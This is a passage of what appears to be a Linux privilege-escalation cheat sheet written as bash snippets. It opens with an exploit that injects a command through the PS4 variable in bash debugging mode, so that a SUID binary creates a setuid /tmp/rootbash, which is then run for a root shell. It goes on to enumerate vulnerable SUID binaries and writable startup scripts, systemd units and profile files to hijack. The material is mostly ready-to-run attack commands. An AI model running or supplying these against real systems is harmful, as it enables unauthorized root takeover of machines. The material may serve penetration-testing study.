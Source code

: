 ### Abusing Bash Debugging Mode

```bash
# For binaries that use system() or similar and run via bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-binary

# Execute the rootbash
/tmp/rootbash -p
```

### Finding Vulnerable SUID Binaries (Advanced)

```bash
# Find SUID files with dynamic library dependencies
for suid in $(find / -perm -4000 -type f 2>/dev/null); do
  ldd "$suid" 2>/dev/null | grep -q "=> not found" && echo "[$suid] Missing library!"
done

# Find SUID programs with file operations on directories we can write to
strace -f -e trace=file /path/to/suid/binary 2>&1 | grep -E "open|access|stat" | grep -E "/tmp|/var/tmp|/dev/shm|/home"

# Find all SUID binaries with file operations/exec functions
for suid in $(find / -perm -4000 -type f 2>/dev/null); do
  echo "======== $suid ========"
  strings "$suid" | grep -E "fopen|open|system|exec|popen" 
done
```

##  Startup Script & Service Exploitation

### Identifying Vulnerable Startup Scripts

```bash
# Check for startup scripts writable by the current user in various locations
find /etc/init.d -writable 2>/dev/null
find /etc/rc.d -writable 2>/dev/null
find /etc/rc.d/init.d -writable 2>/dev/null
find /etc/init -writable 2>/dev/null
find /etc/systemd/system -writable 2>/dev/null
find /usr/lib/systemd/system -writable 2>/dev/null

# Check for writable system-wide profile scripts
find /etc/profile.d -writable 2>/dev/null
find /etc/profile -writable 2>/dev/null
find /etc/bash.bashrc -writable 2>/dev/null
 
# Find scripts with SUID/SGID permissions that might be called during startup
find / -perm -u+s -type f -exec ls -la {} \; 2>/dev/null | grep -E "\/etc\/(init|rc)"

# Find service configurations that run as root
grep -r "User=root\|UID=0" /etc/systemd/system/ /usr/lib/systemd/system/ 2>/dev/null
```
